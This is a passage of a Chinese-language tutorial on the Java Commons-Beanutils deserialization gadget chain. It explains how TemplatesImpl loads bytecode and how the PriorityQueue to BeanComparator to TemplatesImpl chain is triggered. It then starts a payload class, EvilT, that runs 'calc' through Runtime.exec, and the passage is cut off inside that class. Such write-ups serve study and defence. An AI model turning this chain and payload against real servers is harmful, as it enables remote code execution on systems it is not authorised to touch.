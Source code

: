 ![image-20250929162847375](./images/反序列化之CB链/image-20250929162847375.png)

控制满足条件后执行,执行`this._class[i] = loader.defineClass(this._bytecodes[i]);`.

这里最终实现
动态类加载：使用 ClassLoader.defineClass 方法将字节码数组动态加载为Java类
恶意代码执行：将预先构造的恶意字节码转换为可执行的类实例.

由此触发漏洞

### CB链总结

`PriorityQueue.compare()`→`BeanComparator.compare()`→`TemplatesImpl.getOutputProperties()`

## 代码实现执行命令

### 恶意代码

写一个恶意程序,通过`javac`编译成`class`文件

```java
package calc;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class EvilT extends AbstractTranslet {
    public EvilT() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```
